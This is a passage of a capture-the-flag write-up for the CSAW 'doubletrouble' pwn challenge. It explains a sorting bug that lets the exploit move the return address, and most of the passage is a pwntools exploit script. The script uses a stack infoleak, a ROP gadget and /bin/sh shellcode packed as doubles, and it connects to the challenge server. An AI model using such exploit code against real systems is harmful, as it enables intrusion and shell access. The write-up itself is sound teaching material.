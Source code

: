 Also to find the offset from the infoleak to where our shellcode is, we can just run the exploit once with our shellcode, and see where our shellcode ends up in respect to the stack infoleak. When I did this, I found that the offset was `+0x1d8` bytes from the infoleak.

## tl ; dr

A quick overview of this challenge
```
*  Program scans in up to 64 doubles, and sorts them from smallest to largest
*  Bug in `findArray` allows us to overwrite the float count with a larger value, thus when it sorts the doubles, it will sort values past our input, allowing us to move the return address.
*  Format payload to call rop gadget, then shellcode on the stack using stack infoleak. The canary has to be within a set range. 
*  Format the shellcode to be together after the sorting
*  Brute force the stack canary untill it is within a range that wouldn't crash our exploit
```
## Exploit

putting it all together, we get the following exploit:
```
# Import the libraries
from pwn import *
import struct

# Establish the target
#target = process('./doubletrouble')
#gdb.attach(target, gdbscript='b *0x8049733')
target = remote('pwn.chal.csaw.io', 9002)

# Get the infoleak, calculate the offset to our shellcode
stack = target.recvline()
stack = stack.replace("\x0a", "")
stack = int(stack, 16)
scadr = stack + 0x1d8

# Create the integer we will create, that will be stored as the double after the ROPgadget 0x804900a, which is the first return address we put
ret = "0x8049010" + hex(scadr).replace("0x", "")
ret = int(ret, 16)

# Scan in some of the input 
target.recvuntil("How long: ")


# Etsablish the four blocks as floats, which make up our shellcode
s1 = "-9.455235083177544e-227"# 0x9101eb51e1f7c931
s2 = "-6.8282747051424842e-229"# 0x90909068732f2f68 
s3 = "-6.6994892300412978e-229"# 0x9090406e69622f68
s4 = "-1.3287388429188698e-231"# 0x900080cd0bb0e389
# shellcode does the following:
'''
   0xffff7ca0: xor    ecx,ecx
   0xffff7ca2: mul    ecx
   0xffff7ca4: push   ecx
   0xffff7ca5: jmp    0xffff7ca8
   0xffff7ca7: xchg   ecx,eax
   0xffff7ca8: push   0x68732f2f
   0xffff7cad: nop
   0xffff7cae: nop
   0xffff7caf: nop
   0xffff7cb0: push   0x6e69622f
   0xffff7cb5: inc    eax
   0xffff7cb6: nop
```